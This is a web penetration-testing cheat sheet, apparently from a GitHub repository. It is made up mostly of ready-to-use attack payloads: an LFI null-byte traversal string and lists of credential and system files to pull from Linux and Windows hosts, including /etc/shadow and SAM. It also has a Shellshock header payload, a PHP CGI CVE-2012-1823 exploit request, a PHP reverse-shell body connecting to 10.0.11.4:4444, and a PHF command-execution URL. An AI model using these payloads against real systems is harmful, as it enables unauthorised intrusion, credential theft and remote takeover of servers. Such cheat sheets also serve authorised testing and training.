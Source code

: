 # Tools
  * Burp Spidering
  * Nikto
  * Dirbuster
  * Dirb


## SQL Injection

....

----------------
# Local File Inclusion (LFI)
In versions of PHP below 5.3 can terminate with a null byte
```
?name=Haxor&type=2&LANG=../../../../../../../windows/system32/drivers/etc/hosts%00
```

## Enumerating LFI

```
...
```

## Exfiltrate Linux Files
```
/etc/issue
/proc/version
/etc/profile
/etc/passwd
/etc/shadow
/root/.bash_history
/var/log/dmessage
/var/mail/root
/var/spool/cron/crontabs/root

...log files
```

## Exfiltrate Windows Files
```
%SYSTEMROOT%\repair\system
%SYSTEMROOT%\repair\SAM
%WINDIR%\win.ini
%SYSTEMDRIVE%\boot.ini
%WINDIR%\Panther\sysprep.inf
%WINDIR%\system32\config\AppEvent.Evt
```

## PHP CGI-Bin Exploits

**Exploiting ShellShock via CGI-Bin - [CVE-2014-6271]**
<br/>
![Shell Shock via User-Agent Header](./img/SHELL_SHOCK.png)
```
() { :;}; echo $(</etc/passwd)
```
----------------
**Detect / Exploit PHP CGI Bug - [CVE-2012-1823]**
<br/>
_Detection:_
```
nmap -p 80, 8080, 443 --script http-cve2012-1823
http://vulnerable/?-s
```

_Exploitation:_
```
POST /?-%64+allow_url_include%3dOn+-%64+safe_mode%3d0+-d+suhosin.simulation%3d1+--define+disable_functions%3d%22%22+-%64+open_basedir%3dnone+-%64+auto_prepend_file%3dphp://input+--define+cgi.force_redirect%3d0+--define+cgi.redirect_status_env%3d0+-%6e HTTP/1.1
```

_POST Body Reverse TCP Shell_
```
<?php exec("/bin/bash -c 'bash -i > /dev/tcp/10.0.11.4/4444 0>&1'");die; ?>
```
----------------
**PHF CGI Remote Command Execution - [CVE-1999-0067]**
```
http://www.thesite.com/cgi-bin/phf?Qalias=x%0a/bin/cat%20/etc/passwd

```
